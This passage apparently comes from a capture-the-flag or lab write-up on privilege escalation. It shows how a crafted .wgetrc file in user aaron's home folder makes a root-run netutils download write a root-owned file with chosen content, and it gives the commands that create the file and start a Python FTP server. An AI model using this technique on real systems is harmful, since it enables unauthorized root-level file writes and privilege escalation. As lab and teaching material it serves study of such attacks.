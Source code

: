 ### wgetrc

`wget` has a option `output_document` which allow us set default location for output file.
```conf
# Set the output filename—the same as ‘-O file’.
#
output_document = file
```

We can create `.wgetrc` in current user "aaron's" $HOME folder and then normally run that `/usr/bin/netutils` command with option 1 and download file from our ftp server.
```bash
cat <<EOF > .wgetrc
# Set the output filename—the same as ‘-O file’.
#
output_document = /home/aaron/wgetrcit
EOF
```

Start python ftp server
```bash
python3 -m pyftpdlib -p 21 -V
```

Set default output file `/home/aaron/wgetrcit` and after succssfully executing command we get `wgetrcit` file owned by root with our content.

![](screenshots/wgetrc-privesc.png)

And if we run same command again it append new content in the same file instead of create new or overwrite existing one.
